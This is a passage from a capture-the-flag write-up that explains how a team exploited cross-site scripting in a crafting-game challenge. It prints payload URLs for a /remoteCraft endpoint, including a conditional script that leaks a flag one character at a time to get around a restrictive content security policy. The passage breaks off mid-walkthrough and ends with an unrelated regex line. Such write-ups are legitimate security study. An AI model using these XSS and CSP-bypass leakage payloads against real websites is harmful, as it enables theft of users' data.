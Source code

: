 ```
/remoteCraft?recipe={"recipe":[["Air","Water"],["Air","Earth"],["Earth","Water"],["Earth","Fire"],["Fire","Mist"],["Magma","Mud"],["Fire","Mud"],["Magma","Mist"],["Earth","Obsidian"],["Air","Rock"],["Fog","Mud"],["Brick","Fog"],["Obsidian","Water"],["Computer Chip","Hot Spring"],["Computer Chip","Fire"],["Hot Spring","Sludge"],["Internet","Smart Thermostat"],["Computer Chip","Steam Engine"],["Fire","Steam Engine"],["Hot Spring","Steam Engine"],["Artificial Intelligence","Data"],["Artificial Intelligence","Cloud"],["Computer Chip","Electricity"],["Dust","Heat Engine"],["Software","Encryption"],["Cloud Computing","Data"],["Fire","Sand"],["Electricity","Software"],["Internet","Program"],["Artificial Intelligence","Data Mining"],["Glass","Software"],["Cybersecurity","Vulnerability"],["Exploit","Web Design"]],"xss":"alert(1)"}
```
So, if the recipes are right we get a message that says "visiting", also our xss query gets executed, but if the recipes aren't right we get an "invalid recipe" message

Lets try this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d22ca00c-91bf-493d-a15e-8594f3363c80)

The moment we got the "visiting" message, another chromium instance popped up executing the xss query.

Now, the question is, how do we exfiltrate data with this??

I mean this was the part where nyself and my teammates got stuck. We thought of webrtc, but then webrtc was disabled on the chromium browser so that wasn't possible. We could have used the ```fetch()``` function though but we can't because of the ```connect-src``` in the csp header which limits the domian we connect to or websockets. We were stuck here for days trying to bypass csp hehe

But then we tried something else, how about instead of trying to exfiltrate all the data at once we kind of just check the server for each characters and then we try to make an event happen if the character is present. 

If you are familiar with Blind SQL injection with conditional responses you'll understand what I'm trying to say, for Blind SQL injection you get a response when your query is true. We'll be using the same approach here.

Lets craft a payload like this

```
/remoteCraft?recipe={"recipe":[["Air","Water"],["Air","Earth"],["Earth","Water"],["Earth","Fire"],["Fire","Mist"],["Magma","Mud"],["Fire","Mud"],["Magma","Mist"],["Earth","Obsidian"],["Air","Rock"],["Fog","Mud"],["Brick","Fog"],["Obsidian","Water"],["Computer Chip","Hot Spring"],["Computer Chip","Fire"],["Hot Spring","Sludge"],["Internet","Smart Thermostat"],["Computer Chip","Steam Engine"],["Fire","Steam Engine"],["Hot Spring","Steam Engine"],["Artificial Intelligence","Data"],["Artificial Intelligence","Cloud"],["Computer Chip","Electricity"],["Dust","Heat Engine"],["Software","Encryption"],["Cloud Computing","Data"],["Fire","Sand"],["Electricity","Software"],["Internet","Program"],["Artificial Intelligence","Data Mining"],["Glass","Software"],["Cybersecurity","Vulnerability"],["Exploit","Web Design"]],"xss":"if (JSON.parse(atob(window.location.hash.slice(1))).flag[0] == 'p'){alert(1);}"}
```
Now, what this does is that, if the recipes are correct it gives us the "visiting" message and then spawns another chromium instance, if the first character of the flag property in the json object is "p" is present the ```alert``` statement gets executed, if the first character isn't "p", the ```alert``` statement doesn't get executed

Lets try this


[ ]: Matches any one character within the specified range or set.